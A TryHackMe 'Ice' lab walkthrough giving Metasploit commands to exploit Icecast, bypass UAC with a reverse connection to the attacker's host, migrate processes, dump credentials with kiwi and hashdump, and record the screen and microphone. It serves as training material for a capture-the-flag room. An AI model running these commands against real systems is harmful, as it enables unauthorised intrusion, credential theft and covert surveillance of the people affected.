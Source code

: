 # Ice

**Room Link:** [https://tryhackme.com/room/ice](https://tryhackme.com/room/ice)



## Recon

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

## Gain Access

**Kali**

```
msfconsole
```

**Metasploit**

```
search icecast
use 0
set RHOSTS $VICTIM
run
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Escalate



<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
run post/multi/recon/local_exploit_suggester
background
```

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

**Metasploit**

```
use exploit/windows/local/bypassuac_eventvwr
set SESSIONS 1
set LHOST $KALI
run
```

We are still user dark but have a lot of privilege's now

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

## Looting

**Meterpreter**

```
ps
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
ps
migrate -N spoolsv.exe
```

**Meterpreter**

```
load kiwi
creds_all
```

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
hashdump
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
screenshare
record_mic
golden_ticket_create
```





















